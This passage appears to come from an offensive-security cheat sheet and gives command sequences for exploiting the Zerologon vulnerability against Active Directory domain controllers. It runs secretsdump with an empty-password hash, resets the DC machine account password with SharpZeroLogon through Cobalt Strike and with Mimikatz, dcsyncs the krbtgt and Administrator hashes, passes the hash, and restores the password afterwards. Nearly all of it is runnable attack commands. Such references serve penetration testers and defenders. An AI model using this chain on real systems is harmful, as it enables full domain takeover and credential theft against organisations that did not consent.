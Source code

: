   ```powershell
  # Find the old NT hash of the DC
  proxychains secretsdump.py -history -just-dc-user 'DC01$' -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'CORP/DC01$@DC01.CORP.LOCAL'

  # Restore password from secretsdump 
  # secretsdump will automatically dump the plaintext machine password (hex encoded) 
  # when dumping the local registry secrets on the newest version
  python restorepassword.py CORP/DC01@DC01.CORP.LOCAL -target-ip 172.16.1.5 -hexpass e6ad4c4f64e71cf8c8020aa44bbd70ee711b8dce2adecd7e0d7fd1d76d70a848c987450c5be97b230bd144f3c3
  deactivate
  ```

* `nccfsas` - .NET binary for Cobalt Strike's execute-assembly
  ```powershell
  git clone https://github.com/nccgroup/nccfsas
  # Check
  execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local

  # Resetting the machine account password
  execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local -reset

  # Testing from a non Domain-joined machine
  execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local -patch

  # Now reset the password back
  ```

* `Mimikatz` - 2.2.0 20200917 Post-Zerologon
  ```powershell
  privilege::debug
  # Check for the CVE
  lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$

  # Exploit the CVE and set the computer account's password to ""
  lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$ /exploit

  # Execute dcsync to extract some hashes
  lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:krbtgt /authuser:DC01$ /authdomain:LAB /authpassword:"" /authntlm
  lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:Administrator /authuser:DC01$ /authdomain:LAB /authpassword:"" /authntlm

  # Pass The Hash with the extracted Domain Admin hash
  sekurlsa::pth /user:Administrator /domain:LAB /rc4:HASH_NTLM_ADMIN

  # Use IP address instead of FQDN to force NTLM with Windows APIs 
  # Reset password to Waza1234/Waza1234/Waza1234/
  # https://github.com/gentilkiwi/mimikatz/blob/6191b5a8ea40bbd856942cbc1e48a86c3c505dd3/mimikatz/modules/kuhl_m_lsadump.c#L2584
  lsadump::postzerologon /target:10.10.10.10 /account:DC01$
  ```

* `CrackMapExec` - only check
  ```powershell
  crackmapexec smb 10.10.10.10 -u username -p password -d domain -M zerologon
  ```
  